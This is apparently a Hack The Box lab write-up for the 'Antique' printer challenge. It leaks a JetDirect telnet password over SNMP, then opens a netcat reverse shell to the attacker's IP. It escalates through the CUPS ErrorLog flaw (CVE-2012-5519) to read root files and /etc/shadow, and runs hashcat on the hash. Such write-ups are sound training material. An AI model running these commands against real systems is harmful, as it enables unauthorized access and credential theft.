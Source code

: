```yaml
---
date: 2025-04-11
categories: [CTF, HTB]
title: "HTB - Printer Exploitation Track - Antique"
tags: ['printer', 'pjl', 'pret']

description: "Printer Exploitation Track - - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Printer Exploitation Track - Antique


![image1](../resources/4ab4a45e16964c82b4a94cfe78f5a6f1.png)

![image2](../resources/b9c665893d0d4a9bb06cf3fb233ccfeb.png)

- I couldn't do anything on the telnet connection apart from grab the banner, because I don't know the password

- I came across this site:
[==http://www.irongeek.com/i.php?page=security/networkprinterhacking==](http://www.irongeek.com/i.php?page=security/networkprinterhacking)

- It says that JetAdmin uses SNMP and so I did a UDP scan for SNMP:

![image3](../resources/30fd5ec29f324520bdaea25360df9a44.png)

- And it is using SNMPv1 (according to NMAP)

- But if we use snmpwalk - **we see that v2 is being** used:
```bash
snmpwalk -v 1 -c public 10.129.62.107

```

![image4](../resources/a4d6824c97bd4b9087773c4f6234bb63.png)

```bash
snmpwalk -v 2c -c public 10.129.62.107

```

![image5](../resources/647155bc03b94d36bb4e58d07e2e88f8.png)

**<u>Leak the password</u>**
- According to this article, some JetDirect printers will leak the password (in Hex) if you send a SNMP GET request to a vulnerable printer:
<https://www.exploit-db.com/exploits/22319>

- Using snmpwalk we can add a **.1** to the end to **query ALL**:
```bash
snmpwalk -v 2c -c public 10.129.62.107 .1

```

![image6](../resources/c122c67f32b6493f9f263480d109caeb.png)

- We get the hex back, and can decode it with CyberChef:

![image7](../resources/27a375a3b7b2464dad66418b8e9641af.png)

- We get the password:
**P@ssw0rd@123!!123"#%&'01345789BCIPQTWXaetuy**

- And we are connected (no username - just the password):

![image8](../resources/4751b1eb659941c48b51cff2d3a6ac6d.png)

If the commands doesn't work - close the session and start a new session

- We can use the exec command to execute system commands:

![image9](../resources/13b7c88d840c4def86f0109797990c07.png)

- Set up a listener
- Execute a reverse shell:
```bash
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.29 4444 >/tmp/f

```

![image10](../resources/5b6a9bea2aa8404592bba8dc7852282a.png)


![image11](../resources/a4e9fbecb932482f85d13a46a4e02cf4.png)

- Looking at open ports - we find 631 (Internet Printing Protocol (IPP)) is open:

![image12](../resources/bd07877c03134169bdb907a8383f3c06.png)

<https://book.hacktricks.xyz/network-services-pentesting/pentesting-631-internet-printing-protocol-ipp>

- We can curl to find out more:
```bash
curl http://127.0.0.1:631

```

![image13](../resources/41ecee78d86049a6874e88c32ed27860.png)

- Cups version:

![image14](../resources/24a06f42a552400185eb3e0d405a5d26.png)

- Looking online, we find an exploit for this version CVE-2012–5519:


![image15](../resources/3b9f012adaed4dc89c73740a3768674a.png)

- There is a metasploit module for it:
<https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read>

- But we don't need to use it. We can extract the info from it and just use that:

Read file as root:

- First we need to set the env variable for **ErrorLog** to the file we want to read:
```bash
cupsctl ErrorLog=/root/root.txt

```

![image16](../resources/cfbfb4288bf148afb68839042f40cddc.png)

- Then we need to send a GET request to **/admin/log/error_log?** :

![image17](../resources/f9741cbc1bad4474b430b7304a10a81d.png)

- We can go further and read /etc/shadow and get the root hash:

![image18](../resources/93b1d83fd93443a5b58a3126e80cbe50.png)

- Find the encryption method with:
```bash
grep ENCRYPT_METHOD /etc/login.defs

```

![image19](../resources/480fd9b6907a4ba88990102cae3e5eb3.png)

- I don't know if hashcat will find it but it was taking ages:
```bash
hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```